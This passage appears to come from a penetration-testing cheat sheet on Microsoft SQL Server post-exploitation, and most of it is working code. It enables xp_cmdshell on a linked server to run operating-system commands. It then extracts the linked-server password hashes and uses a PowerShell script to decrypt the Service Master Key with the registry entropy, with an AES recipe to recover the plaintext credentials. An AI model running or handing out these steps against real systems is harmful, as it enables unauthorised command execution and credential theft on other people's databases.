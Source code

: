 ```sql
EXECUTE ('EXEC sp_configure "show advanced options", 1; RECONFIGURE; EXEC sp_configure "xp_cmdshell", 1; RECONFIGURE; EXEC xp_cmdshell "whoami";') AT SQL02;
```

### <mark style="color:yellow;">Decrypting Linked Server Passwords (Post-Exploitation)</mark>

With a user with sysadmin role we can extract credentials to linked servers.

```sql
SELECT sysservers.srvname, syslnklgns.name, syslnklgns.pwdhash
FROM master.sys.syslnklgns
INNER JOIN master.sys.sysservers
ON syslnklgns.srvid = sysservers.srvid WHERE LEN(pwdhash) > 0;

# Get hash
SELECT * FROM sys.key_encryptions;
```

Decrypt Service Master Key, first get entropy bytes

```sh
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL16.MSSQLSERVER\Security" -Name "Entropy"
```

Then use script&#x20;

```powershell
$encryptedData = "0xFFFFFFFF500100<SNIP>";
$encryptedData = $encryptedData.Substring(18); # Remove 0x and padding
$encryptedData = [byte[]] -split ($encryptedData -replace '..', '0x$& ');

$entropy = (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL16.MSSQLSERVER\Security" -Name "Entropy").Entropy;

Add-Type -AssemblyName System.Security;
$SMK = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedData, $entropy, 'LocalMachine');
Write-Host (($SMK|ForEach-Object ToString X2) -join '');
```

Split pwdhash into IV and Ciphertext

```sql
SELECT
	name,
	SUBSTRING(pwdhash, 5, 16) AS 'IV',
	SUBSTRING(pwdhash, 21, LEN(pwdhash) - 20) AS 'Ciphertext'
FROM sys.syslnklgns
WHERE LEN(pwdhash) > 0;
```

Decrypt password [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt\(%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D,'CBC','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D\)Decode_text\('UTF-16LE%20\(1200\)'\)).
